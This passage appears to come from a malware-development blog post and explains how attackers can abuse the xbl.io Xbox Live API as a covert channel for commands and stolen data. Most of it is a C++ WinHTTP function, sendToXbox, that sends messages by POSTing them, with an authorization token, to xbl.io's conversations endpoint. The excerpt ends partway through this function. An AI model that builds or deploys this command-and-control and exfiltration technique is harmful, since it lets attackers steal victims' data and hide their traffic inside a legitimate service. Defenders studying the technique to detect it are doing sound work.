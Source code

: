 ![malware](/assets/images/182/2025-10-23_10-47_1.png){:class="img-responsive"}    

So, what is the main idea? The Xbox API, also known as the `xbl.io` API, allows for communication over Xbox Live, particularly for sending messages between friends. By leveraging the `XUID` (Xbox User ID) and API key, attackers can send data, including commands and exfiltrated information, directly into Xbox Live chat channels.     

We need function like this:    

```cpp
// send data to Xbox chat via xbl.io API
int sendToXbox(const char* message) {
  HINTERNET hSession = WinHttpOpen(L"UserAgent", WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
  if (!hSession) return 1;
 
  HINTERNET hConnect = WinHttpConnect(hSession, L"xbl.io", INTERNET_DEFAULT_HTTPS_PORT, 0);
  if (!hConnect) {
    WinHttpCloseHandle(hSession);
    return 1;
  }
 
  HINTERNET hRequest = WinHttpOpenRequest(hConnect, L"POST", L"/api/v2/conversations", NULL, WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, WINHTTP_FLAG_SECURE);
  if (!hRequest) {
    WinHttpCloseHandle(hConnect);
    WinHttpCloseHandle(hSession);
    return 1;
  }

  char authHeader[512];
  snprintf(authHeader, sizeof(authHeader), "X-Authorization: %s", XBOX_TOKEN);

  wchar_t wauthHeader[512];
  wchar_t wctypeHeader[] = L"Content-Type: application/json";
  MultiByteToWideChar(CP_ACP, 0, authHeader, -1, wauthHeader, 512);
```